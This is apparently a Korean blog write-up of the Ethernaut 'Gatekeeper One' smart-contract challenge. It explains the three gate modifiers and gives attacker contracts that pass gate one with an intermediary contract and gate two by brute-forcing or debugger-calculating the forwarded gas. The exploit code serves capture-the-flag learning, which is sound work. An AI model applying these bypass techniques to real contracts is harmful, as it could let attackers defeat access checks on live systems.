

# 👋 Gatekeeper One
__Difficulty 5/10__

- 승리 조건
- 코드 분석
- 풀이
순서로 진행 될 것이다.

이번 포스트는 특별하게 2편으로 나누어 진행한다. 
이번편은 gate1과 gate2를 다룰 예정이다.
- - -

## 승리 조건
- Gatekeeper을 지나 entrant로 등록하기

- - -

## 코드 분석
GatekeeperOne contract에서스 3개의 gate가 존재한다. gate는 모두 modifier로 되어있다. 즉 3개의 modifier의 조건을 만족시키면 된다.   
분석은 주석에!

```solidity
contract GatekeeperOne {

    using SafeMath for uint256;
    address public entrant;

    // msg.sender과 tx.origin이 다르면 진행
    modifier gateOne() {
        require(msg.sender != tx.origin);
        _;
    }

    // gasleft()의 8191의 배수이면 진행
    modifier gateTwo() {
        require(gasleft().mod(8191) == 0);
        _;
    }

    // _gateKey가 type casting관련 3가지 조건에 만족하면 진행
    modifier gateThree(bytes8 _gateKey) { 
        require(uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)), "GatekeeperOne: invalid gateThree part one");
        require(uint32(uint64(_gateKey)) != uint64(_gateKey), "GatekeeperOne: invalid gateThree part two");
        require(uint32(uint64(_gateKey)) == uint16(tx.origin), "GatekeeperOne: invalid gateThree part three");
        _;
    }

    // modifier를 포함한 함수: 이 함수를 통해 내가 entrant가 될 수 있다.
    function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
        entrant = tx.origin;
        return true;
    }
}

```
- - -


## 풀이
이 문제에서 우리의 목표는 3개의 gate를 무사히 지나 entrant로 등록하는 것이다. 우선 gate1은 이전에 풀었던 [Telephone](https://holyhansss.github.io/ethernaut/4_telephone_ethernaut/4_telephone_ethernaut/)과 유사했다. 아래의 조건은 우리가 가지고 그냥 내가 직접 transaction을 보내지 않고 다른 contract를 만들어 사용하면 된다. gate1은 쉽게 풀렸다.

```solidity
require(tx.origin != msg.sender)
```
<br/>

그렇다면 gate2번은 어떻게 pass할 수 있을까? 아래의 코드에서 중요한 점은 gasleft이다. [gasleft()](https://docs.soliditylang.org/en/v0.8.3/units-and-global-variables.html)는 gasleft()가 실행되는 당시의 gas가 얼마나 남았는지 return해주는 함수이다. 그렇다면 어떻게 그 당시 남은 gas를 8191의 배수로 만들 수 있을까?

```solidity
modifier gateTwo() {
    require(gasleft().mod(8191) == 0);
    _;
}
```
<br/>

이 문제를 완벽히 이해하고 풀기까지 이틀정도 소요된 것 같다ㅜ 

gas 관련 부분에 대한 나의 지식이 부족했던지라 구글을 사용해서 답을 찾아서 이해하는 식으로 진행했다. 

우리는 여기서 reqire문이 실행될때 남은 gas가 8191의 배수가 되게 해야한다. Openzeppline에서 찾은 답은 아래와 같았다. 2번째 gate를 풀기 위해 될때까지 보내는 식인 것 같다. 공부를 마친 후 지금에서 보면 어느정도 이해가 된다. 하지만 내가 문제를 풀 당시에는 아래 코드를 제대로 이해하지 못해 내가 이해할 수 있는 방법으로 문제를 풀었다.

```solidity
contract GatekeeperOneAttack {

  constructor(address GatekeeperOneContractAddress) public {
    bytes8 key = bytes8(uint64(uint16(tx.origin)) + 2 ** 32);
    
    // NOTE: the proper gas offset to use will vary depending on the compiler
    // version and optimization settings used to deploy the factory contract.
    // To migitage, brute-force a range of possible values of gas to forward.
    // Using call (vs. an abstract interface) prevents reverts from propagating.
    bytes memory encodedParams = abi.encodeWithSignature(("enter(bytes8)"),
      key
    );

    // gas offset usually comes in around 210, give a buffer of 60 on each side
    for (uint256 i = 0; i < 120; i++) {
      (bool result, ) = address(GatekeeperOneContractAddress).call{gas: i + 150 + 8191 * 3}(encodedParams);
      if(result)
        {
        break;
      }
    }
  }
}
```
<br/>

나는 gate2를 풀때 require문에서 계산되는 시기에 남은 gas의 값을 정확하게 얻어내는 방식으로 진행했다. 여기에서는 remix의 dubugger를 통해 opcode와 그에 대한 정보를 사용했다. 우선 내가 만든 contract는 이랬다. 나는 [이 글](https://medium.com/coinmonks/ethernaut-lvl-13-gatekeeper-1-walkthrough-how-to-calculate-smart-contract-gas-consumption-and-eb4b042d3009)에서 방법을 배워 적용했다!   

<br/>
새로운 contract를 만들어 GatekeeperOne.enter()를 call 했다면 gate 1은 성공한 것이다. 그리고 콘솔창을 보면 아래와 같은 transaction 실패표시가 뜰 것이다. 그리고 저 부분을 클릭하고 transaction hash를 찾아 remix debugger에 넣으면 된다.


<br/>

이후 debugger를 돌리다보면 아래와 같이 "gasleft().mod" 가 하이라이트 될 때가 있다. 그때 Opcode는 PUSH에 있을 것이고 Step details를 보면 remaining gas를 확인 할 수 있다. 이를 역계산해서 필요한gas만큼 8191의 배수에 더해 transaction을 보내면 된다. 


아래는 내가 해결할때 사용한  코드이다!

```solidity
contract GetEntrant {
    
    GatekeeperOne gatekeeperOne;

    constructor(address _gatekeeperOne) public {
        gatekeeperOne = GatekeeperOne(_gatekeeperOne);
    }
    
    function enter(bytes8 _gateKey) public {
        //254 gas는 내가 debug를 통해 계산했다.
        gatekeeperOne.enter{gas: 8191*5+254}(_gateKey);
    }
  
}
```
<br/>
너무 길어져서 다음 글에 type conversion 설명과 gate3에 대한 설명을 쓰도록 하겠다:)


- - -
## 기타 정보
- rinkeyb network ether faucet: https://faucets.chain.link/rinkeby
- ethernaut: https://ethernaut.openzeppelin.com/
- remix IDE: https://remix.ethereum.org
- Storage & Casting: https://medium.com/coinmonks/solidity-variables-storage-type-conversions-and-accessing-private-variables-c59b4484c183


```